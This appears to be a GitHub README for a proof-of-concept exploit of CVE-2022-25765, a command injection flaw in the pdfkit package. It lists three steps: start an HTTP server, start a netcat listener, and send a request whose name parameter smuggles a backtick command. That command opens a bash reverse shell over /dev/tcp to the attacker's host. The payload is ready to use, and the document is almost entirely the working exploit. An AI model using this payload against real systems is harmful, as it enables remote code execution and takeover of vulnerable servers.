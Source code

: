 # PDFkit-CMD-Injection 

CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

### Start a HTTP server
<pre>
1- python3 -m http.server 80
</pre>
### Start a netcat listener
<pre>
2- nc -lnvp 'Target Port'
</pre>
### Make a request 
<pre>
3- http://"TARGET_ADDRESS:Target PORT"//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/"Target_ADRESS/LISTENING_PORT"<&1'`'}
</pre>
